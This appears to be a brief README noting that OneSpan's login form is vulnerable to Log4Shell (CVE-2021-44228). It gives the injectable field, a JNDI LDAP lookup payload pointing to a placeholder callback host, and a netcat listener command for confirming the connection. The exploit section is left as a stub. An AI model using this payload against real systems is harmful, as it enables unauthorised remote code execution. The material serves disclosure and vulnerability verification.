 # Log4Shell, again...

OneSpan is listed as a product affected by CVE-2021-44228, cf. https://www.onespan.com/remote-code-execution-vulnerability-in-log4j2-cve-2021-44228 .

The vulnerability can be exploited from the login form (example.com/viewLogin.action), by injecting a crafted input in the loginUserID field and submitting the form. Running netcat on a different host will confirm the vulnerability (nc -lnvp **somePort**).

## Initial payload
${jndi:ldap://host-with-netcat:9999}

Netcat will output a "Connection received on <target-ip>".

## Exploit
... to be written some day if I have time...
